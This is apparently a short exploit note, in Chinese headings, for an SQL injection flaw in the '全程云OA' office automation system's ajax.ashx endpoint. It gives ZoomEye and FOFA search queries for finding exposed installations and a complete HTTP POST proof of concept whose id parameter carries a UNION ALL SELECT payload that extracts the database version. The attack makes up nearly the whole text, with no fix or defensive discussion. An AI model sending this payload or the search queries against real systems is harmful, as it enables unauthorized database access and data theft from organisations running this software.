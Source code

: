 ## 全程云OA__ajax.ashxSQL注入漏洞

## zoomeye
```
app:"全程云OA"
```

## fofa
```
".passImg{background:url(images/yiyaoshi.png)"
```

## poc
```
POST /OA/common/mod/ajax.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2919.83 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate

dll=DispartSell_Core.dll&class=DispartSell_Core.BaseData.DrpDataManager&method=GetProductById&id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,@@version,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+
```


![image](../../images/7ce08043-58c9-405b-9714-f7854852abf3.png)
